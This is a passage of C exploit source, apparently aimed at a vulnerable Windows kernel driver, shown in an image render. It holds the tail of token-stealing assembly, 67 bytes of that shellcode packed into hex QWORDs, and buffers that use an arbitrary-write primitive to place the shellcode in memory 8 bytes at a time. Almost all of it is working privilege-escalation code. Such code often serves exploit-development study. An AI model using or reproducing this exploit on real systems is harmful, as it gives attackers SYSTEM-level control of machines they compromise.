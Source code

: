 ```c
            mov [rax + 0x360], rcx    ; Copy SYSTEM token to current process

            xor rax, rax        ; set NTSTATUS STATUS_SUCCESS
            ret             ; Done!

        */

        // One QWORD arbitrary write
        // Shellcode is 67 bytes (67/8 = 9 unsigned long longs)
        unsigned long long shellcode1 = 0x00018825048B4865;
        unsigned long long shellcode2 = 0x000000B8808B4800;
        unsigned long long shellcode3 = 0x02F09B8B48C38948;
        unsigned long long shellcode4 = 0x0002F0EB81480000;
        unsigned long long shellcode5 = 0x000002E88B8B4800;
        unsigned long long shellcode6 = 0x8B48E57504F98348;
        unsigned long long shellcode7 = 0xF0E180000003608B;
        unsigned long long shellcode8 = 0x4800000360888948;
        unsigned long long shellcode9 = 0x0000000000C3C031;

        // Buffers to send to the driver (write primitive)
        unsigned long long inBuf3[4];
        unsigned long long inBuf4[4];
        unsigned long long inBuf5[4];
        unsigned long long inBuf6[4];
        unsigned long long inBuf7[4];
        unsigned long long inBuf8[4];
        unsigned long long inBuf9[4];
        unsigned long long inBuf10[4];
        unsigned long long inBuf11[4];

        // Values to send
        unsigned long long one3 = 0x4141414141414141;
        unsigned long long two3 = shellcodeLocation;
        unsigned long long three3 = 0x0000000000000000;
        unsigned long long four3 = shellcode1;

        unsigned long long one4 = 0x4141414141414141;
        unsigned long long two4 = shellcodeLocation + 0x8;
        unsigned long long three4 = 0x0000000000000000;
        unsigned long long four4 = shellcode2;

        unsigned long long one5 = 0x4141414141414141;
        unsigned long long two5 = shellcodeLocation + 0x10;
        unsigned long long three5 = 0x0000000000000000;
        unsigned long long four5 = shellcode3;

        unsigned long long one6 = 0x4141414141414141;
        unsigned long long two6 = shellcodeLocation + 0x18;
        unsigned long long three6 = 0x0000000000000000;
        unsigned long long four6 = shellcode4;

        unsigned long long one7 = 0x4141414141414141;
        unsigned long long two7 = shellcodeLocation + 0x20;
        unsigned long long three7 = 0x0000000000000000;
        unsigned long long four7 = shellcode5;

        unsigned long long one8 = 0x4141414141414141;
        unsigned long long two8 = shellcodeLocation + 0x28;
        unsigned long long three8 = 0x0000000000000000;
        unsigned long long four8 = shellcode6;

        unsigned long long one9 = 0x4141414141414141;
        unsigned long long two9 = shellcodeLocation + 0x30;
```